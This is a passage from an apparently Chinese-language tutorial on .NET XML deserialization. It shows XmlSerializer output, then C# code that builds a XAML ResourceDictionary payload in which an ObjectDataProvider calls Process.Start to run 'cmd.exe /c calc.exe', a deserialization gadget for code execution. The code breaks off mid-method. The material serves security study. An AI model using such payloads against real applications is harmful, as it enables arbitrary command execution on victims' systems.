 - 定义一个writer
- 序列化对象必须Public

上述输出结果为
```
<?xml version="1.0" encoding="utf-8"?>                                                                     
<Person xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <name>Boogipop</name>                                                                                    
</Person>                                                                                
```
他会将我们的对象Object序列化为Xml文本格式，之后反序列化的话就会转换回Person类。
上述memory流对象在序列化后position会蹦到文件的末尾，我们需要给他调整为0再进行反序列化才行。


# 02-ResourceDictionary
[https://learn.microsoft.com/zh-cn/dotnet/api/system.windows.resourcedictionary?view=windowsdesktop-8.0](https://learn.microsoft.com/zh-cn/dotnet/api/system.windows.resourcedictionary?view=windowsdesktop-8.0)
该类的作用是提供一个哈希表/字典实现，其中包含组件所使用的 WPF 资源以及 WPF 应用程序的其他元素。
它使用了xaml语法，与xml类似，ResourceDictionary类似于一个字典，储存键值对。那么肯定也就有一定的漏洞风险。
接下来笔者提供一个生成xaml payload的Demo
```csharp
using System;
using System.Collections.Specialized;
using System.Diagnostics;
using System.IO;
using System.Reflection;
using System.Text;
using System.Windows;
using System.Windows.Data;
using System.Windows.Markup;
using System.Xml.Serialization;
namespace XmlDeserialize
{
    public class Person
    {
        public string name = "Boogipop";
        private int age = 114;
    }
    public class XmlDeserialize
    {
        public static void Main(string[] args)
        {
            var objectDataProvider = new ObjectDataProvider();
            var psi = new ProcessStartInfo();
            psi.FileName = "calc";
            psi.Arguments = "test";
            // 去掉多余的环境变量
            StringDictionary dict = new StringDictionary();
            psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
            var p = new Process();
            p.StartInfo = psi;
            objectDataProvider.MethodName = "Start";
            objectDataProvider.MethodParameters.Add("cmd.exe");
            objectDataProvider.MethodParameters.Add("/c calc.exe");
            objectDataProvider.ObjectInstance = p;
            var resourceDictionary = new ResourceDictionary();
            resourceDictionary["a"] = objectDataProvider;
            var payload = XamlWriter.Save(resourceDictionary);
            Console.WriteLine(payload);
```